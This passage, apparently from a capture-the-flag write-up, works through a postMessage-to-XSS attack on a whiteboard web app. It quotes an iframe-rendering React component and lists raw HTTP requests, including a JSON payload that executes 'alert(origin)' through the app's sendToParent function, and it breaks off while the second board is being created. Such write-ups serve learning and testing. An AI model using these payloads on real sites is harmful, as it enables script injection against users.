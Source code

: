 In `frontend/app/whiteboard/components/Draggable.tsx`, this `BoardGadget` will then get rendered in an `<iframe>`:

```javascript
export default function Draggable({
  [...]
}: {
  [...]
}) {
  const iframeRef = useRef<HTMLIFrameElement>(null);
  [...]
  return (
    [...]
      {gadget instanceof BoardGadget && (
        <iframe
          ref={iframeRef}
          src={new URL(gadget.boardId, import.meta.env.VITE_ROOT_URL).href}
          width={500}
          height={500}
        />
      )}
    [...]
  );
}
```

Therefore, to exploit this `postMessage`, we need to:
- Create board 1: Execute function `sendToParent` and send message to the `message` event handler

```http
POST /board HTTP/1.1
Host: localhost:25054


```

Board 1 ID: `dce78f03-820c-418f-891f-a49da7e3efe6`.

```http
PUT /board/dce78f03-820c-418f-891f-a49da7e3efe6 HTTP/1.1
Host: localhost:25054
Content-Type: application/json
Content-Length: 131

{"content":{"anything":{"type":"functions.sendToParent","executeFunction":true,"functionString":"alert(origin)","arguments":[""]}}}
```

- Create board 2: Embed board 1 using board type `gadgets.board`

```http
POST /board HTTP/1.1
Host: localhost:25054


```
